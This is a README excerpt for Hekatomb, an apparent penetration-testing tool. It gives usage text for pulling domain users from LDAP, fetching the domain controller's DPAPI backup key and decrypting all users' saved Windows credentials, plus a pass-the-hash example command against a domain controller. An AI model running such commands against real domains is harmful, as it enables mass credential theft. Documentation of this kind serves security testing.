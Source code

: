 
## Usage
<br>
Hekatomb uses Impacket syntax :
<br><br>

```python
usage: hekatomb [-h] [-hashes LMHASH:NTHASH] [-pvk PVK] [-dns DNS] [-dnstcp] [-port [port]] [-just-user JUST_USER] [-just-computer JUST_COMPUTER] [-md5] [-debug] [-debugmax] target

Script used to automate domain computers and users extraction from LDAP and extraction of domain controller private key through RPC to collect and decrypt all users' DPAPI secrets saved in Windows credential manager.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address of DC>

options:
  -h, --help            Show this help message and exit

authentication:
  -hashes LMHASH:NTHASH     NTLM hashes, format is LMHASH:NTHASH

authentication:
  -pvk PVK                  Domain backup keys file
  -dns DNS                  DNS server IP address to resolve computers hostname
  -port [port]              Port to connect to SMB Server
  -smb2                     Force the use of SMBv2 protocol
  -just-user [USERNAME]     Test only specified username
  -just-computer [COMPUTER] Test only specified computer
  -md5                      Print md5 hash insted of clear passwords

verbosity:
  -debug                Turn DEBUG output ON
  -debugmax             Turn DEBUG output TO MAAAAXXXX
```

<br>
<br>

## Example

<br>

```python
hekatomb -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug 
```

<br>
<br>
    
## How to retrieve domain backup keys ?

<br />
If no domain backup keys are provided, the script will retrieve it through RPC
